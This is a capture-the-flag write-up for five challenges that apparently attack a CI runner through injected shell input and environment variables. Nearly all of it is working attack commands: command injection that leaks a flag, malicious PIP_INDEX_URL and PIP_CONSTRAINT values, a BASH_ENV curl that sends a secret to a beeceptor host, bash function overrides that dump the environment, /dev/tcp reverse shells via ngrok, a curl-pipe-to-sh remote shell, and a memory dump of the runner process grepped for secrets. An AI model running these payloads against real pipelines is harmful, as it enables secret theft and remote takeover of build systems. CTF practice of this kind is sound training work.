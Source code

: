 # Chall 1
 
``` bash
Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
```
 
# Chall 2
## Solution 1
[PIP environment variables doc](https://pip.pypa.io/en/latest/cli/pip_install/) PIP_<UPPER_LONG_NAME>

[Pypi PyYAML](https://pypi.org/project/PyYAML/)

[Cloudsmith](https://cloudsmith.io/~nebco/packages/)
``` bash
Not a release :(
PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
```
Alternatives to cloudsmith :
- Host your own registry server (local, AWS or other...)
- Use github pages

## Solution 2
[Beeceptor](https://beeceptor.com/)

[Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

Configure Beeceptor :
- Add new "Mocking Rules"
- Match value: "/<file_name>.txt"
- Response body: "pyyaml@https://tdf123456.free.beeceptor.com/${FLAG}%"

``` bash
Not a release :(
PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/get-flag
```

# Chall 3
## Solution 1
> [!TIP]
> [Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
> [Beeceptor](https://beeceptor.com/)
> [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)
 
``` bash
Not a release :(
BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
```

## Solution 2
``` bash
Not a release :(
BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
```
 
# Chall 4
 
## Setup (client side)
 
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload
 
``` bash
$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's investigate!
 
The directory `/home/runner/work/_temp` look interesting...
 
# Chall 5
 
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload
 
``` bash
; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's dump!
 
### Let's check those secrets
 
``` bash
sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
```

 
